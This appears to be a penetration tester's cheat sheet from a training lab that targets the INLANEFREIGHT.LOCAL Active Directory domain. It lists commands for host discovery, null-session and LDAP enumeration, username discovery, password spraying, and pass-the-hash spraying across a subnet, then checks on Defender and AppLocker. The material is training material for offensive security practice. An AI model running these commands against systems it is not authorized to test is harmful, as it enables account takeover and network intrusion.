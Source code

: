 Finding active host within domain
```shell-session
fping -asgq 172.16.5.0/23
```

Finding NULL Sessions

```shell-session
rpcclient -U "" -N 172.16.5.5
```

Password policy
```shell-session
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

```shell-session
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```

Generating user account list
https://github.com/insidetrust/statistically-likely-usernames

Discovering valid users
```shell-session
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```
```shell-session
crackmapexec smb 172.16.5.5 --users
```
```shell-session
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

Password spraying linux

```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
```shell-session
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
```shell-session
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```

Password spraying windows 
	https://github.com/dafthack/DomainPasswordSpray
```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```


Admin account hash spraying
```shell-session
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

Discovering valid users with user list
```shell-session
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt

(Extract usernames)

grep -oE '[^[:space:]]+@' logfile.txt | cut -d'@' -f1
```

Get common user attributes
```powershell-session
Get-ADUser -Identity htb-student
```

Group Details
```powershell-session
Get-ADGroup -Identity "Server Operators" -Properties *
```

Current User Privileges
```powershell-session
whoami /priv
```


***Security Controls***

Check Windows Devender
```powershell-session
Get-MpComputerStatus
```

Check Whitelist applications and paths
```powershell-session
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
